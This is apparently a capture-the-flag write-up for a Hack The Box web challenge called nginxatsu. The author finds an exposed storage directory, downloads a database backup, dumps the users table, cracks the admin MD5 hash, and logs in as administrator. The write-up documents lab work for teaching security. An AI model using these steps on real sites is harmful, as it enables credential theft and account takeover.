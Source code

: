 ## challenge description `Can you find a way to login as the administrator of the website and free nginxatsu?` , we have login and register page 
![Screenshot 2023-08-07 at 04-14-48 nginxatsu](https://github.com/kiro6/writeups-ctfs/assets/57776872/a99c1a03-4b26-4100-b4a6-ecb6f3a299bb)

## made an account and logged in , there is a functionality to make your own server config , i just used what is default which is a route to storage endpoint which have directory indexing
![Screenshot 2023-08-07 at 04-15-18 nginxatsu](https://github.com/kiro6/writeups-ctfs/assets/57776872/6d80b3b9-64b9-49d7-8a14-4be1ba8b8779)

## chech the endpoint we have database backup file 
![Screenshot 2023-08-07 at 04-15-36 Index of _storage_](https://github.com/kiro6/writeups-ctfs/assets/57776872/79499dd6-cb02-48b2-af89-9509d2d5f951)

## downloaded and checked it , we have `nginxatsu-adm-01@makelarid.es` which seems to be admin email and `e7816e9a10590b1e33b87ec2fa65e6cd` which seems to be hashed password
```bash
$ sqlite3 database.sqlite
SQLite version 3.38.5 2022-05-06 15:25:27
Enter ".help" for usage hints.
sqlite> SELECT name FROM sqlite_master WHERE type='table';
migrations
sqlite_sequence
users
password_resets
failed_jobs
nginx_configs
sqlite> select * from users
   ...> ;
1|jr|nginxatsu-adm-01@makelarid.es|e7816e9a10590b1e33b87ec2fa65e6cd|k0ZgIBubWFdSuqAjcrx0ZIbPBCcgMLLCUcvd4ygAchkHYMmZDBLtWA9rLNO5SNQMiggY||2023-08-07 01:01:17|2023-08-07 01:01:17
2|Giovann1|nginxatsu-giv@makelarid.es|ebd9e5e3bd3b3fc832d697d36bc5641a|Sxpt3r1OiH0vTyEkSRToNtqKAGdAFzOYrJIeSnFoNRaeOCko8xWePD0GQfpknu98Wgm6||2023-08-07 01:01:17|2023-08-07 01:01:17
3|me0wth|nginxatsu-me0wth@makelarid.es|9981a1fe9c5381fcc6cd40d39e15c976|TixBNDRuxhoVo6hjSjSK3CqLzVFCRedBSLXefnTzlvYODIBhdU0JSMmsvrmxgEoBsBwN||2023-08-07 01:01:17|2023-08-07 01:01:17
```
## crack passowrd
```
$ dcode e7816e9a10590b1e33b87ec2fa65e6cd

    __                         __
  |/  |                   | / /
  |   | ___  ___  ___  ___|  (
  |   )|___)|    |   )|   )| |___ \   )
  |__/ |__  |__  |__/ |__/ | |     \_/
                                    /
[+] Cracked MD5 Hash : adminadmin1
[+] Decoded from Hex : çnY
                          3¸~ÂúeæÍ
```

## login as admin 
![Screenshot 2023-08-07 at 04-18-51 nginxatsu](https://github.com/kiro6/writeups-ctfs/assets/57776872/ee94d6e4-254e-4368-8b61-cacacd7842f9)

## and we have the flag 
```
HTB{ng1ngx_r34lly_b3_sp1ll1ng_my_w3ll_h1dd3n_s3cr3ts??}
```

